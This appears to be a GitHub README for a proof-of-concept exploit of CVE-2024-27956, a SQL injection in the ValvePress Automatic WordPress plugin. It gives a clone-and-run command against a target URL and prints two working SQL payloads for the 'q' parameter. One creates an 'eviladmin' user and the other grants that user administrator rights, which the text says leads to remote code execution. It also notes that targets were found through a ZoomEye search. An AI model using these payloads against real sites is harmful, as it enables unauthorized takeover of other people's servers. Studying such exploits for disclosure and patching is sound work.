 # using https://www.zoomeye.hk/ web site with search "wp-content/plugins/wp-automatic"

# CVE-2024-27956-RCE
A PoC for CVE-2024-27956, a SQL Injection in ValvePress Automatic plugin. This PoC exploit the vulnerability creating a user in the target and giving Administrator rights. Being an administrator in wordpress can lead to Remote Code Execution.

<h1>Usage</h1>

```
git clone https://github.com/diego-tella/CVE-2024-27956-RCE/
cd CVE-2024-27956-RCE
python exploit.py http://target.com
```

<h1>Payloads</h1>
SQL Injection payload to create a user:

```
q=INSERT INTO wp_users (user_login, user_pass, user_nicename, user_email, user_url, user_registered, user_status, display_name) VALUES ('eviladmin', '$P$BASbMqW0nlZRux/2IhCw7AdvoNI4VT0', 'eviladmin', 'eviladmin@gmail.com', 'http://127.0.0.1:8000', '2024-04-30 16:26:43', 0, 'eviladmin')
```

Giving admin rights:

```
q=INSERT INTO wp_usermeta (user_id, meta_key, meta_value) VALUES ((SELECT ID FROM wp_users WHERE user_login = 'eviladmin'), 'wp_capabilities', 'a:1:{s:13:\"administrator\";s:1:\"1\";}
```

In the q parameter, we can pass our entire query and then it will be executed.

![image](https://github.com/diego-tella/CVE-2024-27956-RCE/assets/70545257/0e24c3ee-52e0-4e7f-9eb1-b54e4096325f)
The user input is executed directly without any kind of restriction or sanitization.

<h1>PoC</h1>
<a href="https://www.youtube.com/watch?v=2y5siI-K-G0"><img src="Screenshot_2.png"></a>
